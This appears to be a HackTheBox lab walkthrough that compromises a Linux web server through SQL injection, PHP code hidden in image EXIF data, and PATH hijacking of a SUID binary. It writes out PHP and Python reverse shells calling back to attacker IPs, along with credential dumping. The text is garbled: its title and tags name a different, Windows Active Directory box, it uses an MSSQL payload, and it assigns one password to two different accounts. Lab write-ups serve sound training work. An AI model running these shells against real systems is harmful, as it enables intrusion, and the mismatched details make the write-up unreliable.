 ```yaml
---
title: "HackTheBox: Cascade | Walkthrough"
date: 2020-09-26
categories: [hackthebox]
tags: [windows, active-directory, smb, ldap, privesc]
---
```


## Enumeration

Set the target IP:

```bash
export ipaddress=10.10.10.185
````

Run an Nmap scan:

```bash
ports=$(nmap -p- --min-rate=1000 -T4 $ipaddress | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -A -p$ports $ipaddress -o nmap
```

Results:

* **22/tcp**: OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
* **80/tcp**: Apache 2.4.29 (Ubuntu)

Only SSH and HTTP are open. Visiting `http://10.10.10.185/` shows a **portfolio site**.

Viewing the source reveals a hidden `login.php`.

---

## SQL Injection

Try basic credentials:

```
admin / admin
```

Fails.

Intercept the login request with Burp and save as `request.txt`.

Run SQLMap:

```bash
sqlmap -r request.txt -p username,password
```

It identifies a SQLi vulnerability and shows a redirect to `upload.php`.

Decoded payload example:

```
username=admin';WAITFOR DELAY '0:0:5'--
password=admin
```

Logging in with that grants access to the **file upload page**.

---

## File Upload Bypass & RCE

Test with a normal image → works. Uploaded to:

```
/images/uploads/mydog.png
```

### Attempt 1: PHP reverse shell disguised

```bash
cp /usr/share/laudanum/php/php-reverse-shell.php php-rev.php
vi php-rev.php   # change IP & port
mv php-rev.php php-rev.php.png
```

Upload fails with “what are you trying to do there?”.

### Attempt 2: PHP code in EXIF metadata

```bash
exiftool -Comment='<?php system("whoami"); ?>' mydog.jpg
mv mydog.jpg mydog.php.jpg
```

Upload → opening file executes code → returns `www-data`.

Now, craft a reverse shell:

```bash
exiftool -Comment='<?php $sock=fsockopen("10.10.14.168",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>' mydog.php.jpg
```

Start listener:

```bash
nc -nvlp 4242
```

Open uploaded file → get reverse shell as `www-data`.

---

## User Privilege Escalation

Check the application files:

```bash
cd /var/www/Magic
cat db.php5
```

Credentials found:

```
User: theseus
Password: iamkingtheseus
```

Try switching user:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
su - theseus
```

Fails.

Dump database:

```bash
mysqldump Magic -u theseus -p
```

Password: `iamkingtheseus`

Dump reveals new creds:

```
admin / Th3s3usW4sK1ng
```

Switch user:

```bash
su - theseus
Password: Th3s3usW4sK1ng
```

Success!

Read user flag:

```bash
cat user.txt
```

---

## Root Privilege Escalation

Search SUID binaries:

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
```

Interesting binary:

```
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
```

`sysinfo` executes commands (`lshw`, `fdisk`, etc.) without full path. → PATH hijacking possible.

Create fake `lshw`:

```bash
cd /home/theseus
echo '#!/bin/bash' > lshw
echo 'bash' >> lshw
chmod +x lshw
export PATH=/home/theseus:$PATH
```

Run `sysinfo`:

```bash
sysinfo
```

Spawns root shell (though limited).

To get a proper reverse shell, use Python:

On attacker machine:

```bash
nc -nvlp 4444
```

On victim:

```bash
python3 -c "import os,pty,socket; s=socket.socket(); s.connect(('10.10.14.27',4444)); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn('/bin/bash')"
```

Now you have a **root shell**.

---

## Proof

```bash
whoami
cat /root/root.txt
```

Rooted ✅

